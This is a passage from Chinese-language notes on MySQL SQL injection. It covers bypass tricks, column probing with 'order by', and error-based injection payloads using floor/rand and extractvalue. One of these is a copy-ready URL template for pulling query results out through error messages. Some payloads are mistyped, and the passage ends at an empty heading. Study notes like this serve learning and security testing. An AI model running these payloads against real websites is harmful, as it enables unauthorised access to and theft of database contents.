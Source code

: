 2.注释绕过

3.括号绕过

把有值的语句括起来



### 小技巧

#### 回显列方法

```mysql
order by 1      order by 4    	看是否报错
select 1,2,3  					看是否报错 或者 回显哪几列
```

#### 转换编码





### 

### 报错注入

#### floor报错注入

```mysql
select count(*),floor(rand(0)*2)x  from security.user group by 
select count(*),concat(database(),floor(rand(0)*2))x from security.users group by x
select * from security.users where id=1 and (selectcount(*),concat(database(),floor(rand(0)*2)x) from security.users group by x)
..


```



详细看https://blog.csdn.net/zpy1998zpy/article/details/80650540

#### extractvalue报错注入

```mysql
extractvalue(xml_document,xpath_string)
```

模板

```mysql
?id=1' and extractvalue(1,concat(0x7e,(select user()),0x7e))#
把select user()做替换即可
```





#### updataxml报错注入
